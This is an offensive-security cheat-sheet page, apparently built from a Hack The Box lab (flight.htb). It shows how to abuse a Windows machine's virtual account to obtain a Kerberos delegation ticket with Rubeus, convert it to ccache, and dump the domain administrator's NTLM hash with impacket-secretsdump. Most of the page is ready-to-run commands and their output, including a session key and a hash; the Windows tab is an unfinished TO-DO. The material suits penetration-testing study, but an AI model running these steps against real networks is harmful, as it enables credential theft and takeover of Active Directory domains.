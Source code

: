 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["Kerberos", "Credential Dumping", "Pass-The-Ticket", "Rubeus", "Ticket Granting Ticket", "Domain Controller", "Machine Account", "Microsoft Virtual Account", "Active Directory", "Windows"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

```console {class="sample-code"}
PS C:\programdata> .\rubeus.exe tgtdeleg /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: W4jpmQuUqxCWpBh7QpPEkePICUi1mU/91EaqO2SfUgs=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBV ...[SNIP]... lHSFQuSFRC
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py '<BASE64_TICKET>' secrets.kirbi secrets.ccache
```

```console {class="sample-code"}
$ python3 rubeustoccache.py 'doIFVDCCBV ...[SNIP]... lHSFQuSFRC' secrets.kirbi secrets.ccache
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to secrets.kirbi
[*] Writing converted .ccache file to secrets.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump <TARGET> -k -no-pass -just-dc-user administrator
```

```console {class="sample-code"}
$ sudo ntpdate -s g0.flight.htb && impacket-secretsdump g0.flight.htb -k -no-pass -just-dc-user administrator

Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
...[SNIP]...
[*] Cleaning up..
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
